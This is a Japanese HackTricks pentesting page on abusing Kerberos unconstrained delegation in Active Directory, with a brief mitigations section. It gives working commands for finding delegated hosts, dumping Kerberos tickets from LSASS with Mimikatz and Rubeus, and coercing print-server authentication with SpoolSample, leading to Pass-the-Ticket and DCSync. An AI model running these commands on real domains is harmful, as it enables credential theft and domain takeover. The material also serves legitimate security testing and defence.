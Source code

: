 # 制約のない委任

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**してみたいですか？または、**最新バージョンのPEASSにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFT](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を手に入れましょう
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>

## 制約のない委任

これは、ドメイン管理者がドメイン内の任意の**コンピュータ**に設定できる機能です。その後、**ユーザーがコンピュータにログイン**するたびに、そのユーザーの**TGTのコピー**がDCが提供するTGSに**送信され、LSASSのメモリに保存**されます。したがって、そのマシンで管理者特権を持っている場合、チケットをダンプして**ユーザーをなりすます**ことができます。

したがって、ドメイン管理者が「制約のない委任」機能が有効になっているコンピュータにログインし、そのマシンでローカル管理者特権を持っている場合、チケットをダンプしてどこでもドメイン管理者になりすますことができます（ドメイン昇格）。

この属性を持つ**コンピュータオブジェクトを見つける**には、[userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx)属性が[ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx)を含んでいるかどうかを確認します。これは、powerviewが行う方法です。LDAPフィルター '（userAccountControl:1.2.840.113556.1.4.803:=524288）'を使用してこれを行うことができます。

<pre class="language-bash"><code class="lang-bash"># 制約のないコンピュータのリスト
## Powerview
Get-NetComputer -Unconstrained #DCは常に表示されますが、昇格には役立ちません
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Mimikatzでチケットをエクスポート
</strong>privilege::debug
sekurlsa::tickets /export #推奨される方法
kerberos::list /export #別の方法

# ログインを監視して新しいチケットをエクスポート
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #新しいTGTを10秒ごとにチェック</code></pre>

**Mimikatz**または**Rubeus**を使用して管理者（または被害者ユーザー）のチケットをメモリにロードし、[**Pass the Ticket**](pass-the-ticket.md)を行います。\
詳細情報: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**ired.teamのUnconstrained delegationに関する詳細情報**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **強制認証**

攻撃者が「制約のない委任」に許可されたコンピュータを**侵害**できる場合、**プリントサーバー**を**トリック**して**自動的にログイン**させ、サーバーのメモリにTGTを保存できます。\
その後、攻撃者は、ユーザープリントサーバーコンピューターアカウントをなりすまして**Pass the Ticket攻撃**を実行できます。

プリントサーバーを任意のマシンにログインさせるには、[**SpoolSample**](https://github.com/leechristensen/SpoolSample)を使用できます。
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
もしTGTがドメインコントローラーからである場合、[**DCSync攻撃**](acl-persistence-abuse/#dcsync)を実行し、DCからすべてのハッシュを取得することができます。\
[**この攻撃に関する詳細はired.teamを参照してください。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**他に認証を強制する方法は以下の通りです:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### 緩和策

* 特定のサービスに対するDA/Adminログインを制限する
* 特権アカウントに対して「アカウントは機密であり委任できません」を設定する。
